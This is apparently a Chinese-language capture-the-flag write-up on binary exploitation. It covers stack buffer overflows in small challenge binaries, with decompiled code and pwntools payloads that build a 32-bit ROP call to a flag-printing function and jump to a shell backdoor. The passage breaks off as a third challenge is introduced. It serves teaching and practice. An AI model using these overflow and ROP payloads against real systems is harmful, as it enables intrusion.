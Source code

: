 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[56]; // [esp+4h] [ebp-38h] BYREF

  printf("Qual a palavrinha magica? ", v4[0]);
  gets(v4);
  return 0;
}
```

`gets()`缓冲区溢出，通过String view看到`"flag.txt"`，Jump to xref to operand，发现了一个`get_flag(a1, a2)`函数（0x80489a0）输出文件的内容

```c
void __cdecl get_flag(int a1, int a2)
{
  //...
  if ( a1 == 0x308CD64F && a2 == 0x195719D1 )
  {
    // Print file flag.txt
    //...
  }
}
```

构造32位rop，`get_flag(814536271, 425138641)`即可

注意：1.本题中的函数调用开头没有`push ebp`（这是编译器偏好决定的，只要栈的信息能够保存就可以了），故不用覆盖；2.`get_flag()`函数输出时不会清空`stdout`的缓冲区，需要正常退出，即返回到`exit()`（0x804e6a0）才能看到输出

`payload = b'a'*0x38 + p32(0x80489a0) + p32(0x804e6a0) + p32(0x308CD64F) + p32(0x195719D1)`

## bjdctf_2020_babystack

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF
  //...
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

简单`gets()`缓冲区溢出，并且有`backdoor()`函数（0x4006e6）调用`system("/bin/sh")`

`io.sendlines([b'10086', b'a'*0x18 + p64(0x4006e6)])`

## not_the_same_3dsctf_2016

比[bjdctf_2020_babystack](#bjdctf_2020_babystack)稍微复杂一点的简单题，
